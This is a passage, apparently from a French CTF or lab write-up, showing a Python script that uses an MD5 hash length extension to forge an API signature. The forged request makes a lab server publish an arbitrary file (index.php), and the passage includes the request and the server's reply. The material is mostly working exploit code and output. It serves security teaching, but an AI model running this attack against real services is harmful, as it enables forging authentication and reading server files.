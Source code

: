 ```python

length_secret = 16
length_data = len(data)
secret = "A" * length_secret

count = (length_secret + length_data) * 8

# We save some space for the length of data (8 bytes) plus the 0x80 byte
null_count = 64 - ((length_secret + length_data + 9) % 64)
padding = "\x80" + ("\0" * null_count)

# new_data will be length-multiple of 64
new_data = secret + data + padding + struct.pack("Q", count)

base_signature = "235aca08775a2070642013200d70097a"
#print "Base signature      ", base_signature
A, B, C, D = struct.unpack("IIII", base_signature.decode("hex_codec"))

m = puremd5.MD5()
m.update("A" * len(new_data))
m.A = A
m.B = B
m.C = C
m.D = D
m.update(append)
new_signature = m.hexdigest()
#print "Calculated signature", new_signature

added = urllib.quote(padding + struct.pack("Q", count))
added += "&filepath=" + urllib.quote_plus(sys.argv[1])

post_data = "contenttype=application%2Fpdf&f=ilepath.%2Fdocuments%2FTop_4_Mitigations.pdf"
post_data += added
post_data += "&api_sig=" + new_signature
print post_data

sess = requests.session()
r = sess.post("http://192.168.1.64/api/documents",
        headers=hdrs,
        data=post_data)

#print r.headers
print r.content
```

Le script utilise l'API en POST permettant de rendre public un document déjà présent sur le serveur. On utilise le script de cette façon :  

```plain
$ python arg_ownhash.py index.php
contenttype=application%2Fpdf&f=ilepath.%2Fdocuments%2FTop_4_Mitigations.pdf%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%02%00%00%00%00%00%00&filepath=index.php&api_sig=529d58265e28414a5f5095c253ea5e31
{"id":"4","uri":"\/api\/documents\/id\/4"}
```
